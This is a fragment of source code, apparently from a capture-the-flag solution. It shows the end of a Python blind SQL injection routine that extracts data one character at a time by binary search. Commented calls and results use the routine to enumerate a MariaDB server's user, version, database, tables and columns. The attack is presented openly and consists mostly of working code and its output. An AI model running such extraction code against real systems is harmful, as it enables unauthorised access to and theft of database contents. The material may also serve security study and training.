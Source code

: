                    lo = mid+1
                   
            if (hi == 0): break
            passwd += chr(temp)
            res = ""
            print "Result [{}]: {}".format(table,passwd)
            idx += 1
    
        return passwd
       
    
    
    # blind("user()","")
    # Result []: root@localhost
    
    # blind("@@version","")
    # Result []: 10.1.37-MariaDB-0+deb9u1
    
    # blind("database()","")
    # Result []: flitebackend
    
    # blind("schema()","")
    # Result []: flitebackend
    
    # blind("table_name","from information_schema.tables where table_name!='devices'")
    # blind("table_name","from information_schema.tables where table_schema=schema()")
    # Result [from information_schema.tables where table_schema=schema()]: devices
    # Result [from information_schema.tables where table_name!='devices']: users
    
    # blind("column_name","from information_schema.columns where table_name='devices'")
    # blind("column_name","from information_schema.columns where table_name='devices' and column_name!='id'")
    # blind("column_name","from information_schema.columns where table_name='devices' and column_name not in ('id','ip')")
    # id, ip
    